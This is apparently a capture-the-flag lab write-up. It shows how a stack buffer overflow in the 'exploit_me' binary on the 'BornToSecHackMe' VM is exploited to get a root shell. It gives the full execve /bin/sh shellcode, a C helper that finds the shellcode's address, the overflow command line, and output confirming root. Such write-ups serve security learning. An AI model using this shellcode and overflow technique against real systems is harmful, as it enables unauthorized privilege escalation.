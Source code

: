 [See detailed writeup here](../writeup1.md)

This time we will exploit `**exploit_me**` in the zaz user with shellcode.

```
export shellcode=$'\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

When you search for "/bin/sh shellcode" on Google, this is one of the first results:

```
https://shell-storm.org/shellcode/files/shellcode-827.html
```

We copied the shellcode directly from there and put it into an environment variable.

We will use a simple C code to get the pointer address of this shellcode.

```
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        if (ac == 2)
        {
                char* ptr = getenv(av[1]);
                printf("%p\n", ptr);
        }
}
```

```
zaz@BornToSecHackMe:~$ gcc shellcode.c

zaz@BornToSecHackMe:~$ ./a.out shellcode
0xbffffef7
zaz@BornToSecHackMe:~$
```
Our second argument is the shellcode environment variable we added.

We just obtained the memory address and now we need to use it in little endian format.

```little endian = "\xf7\xfe\xff\xbf" ```


```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\xf7\xfe\xff\xbf"')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# exit

```

We are ROOT #4 ;D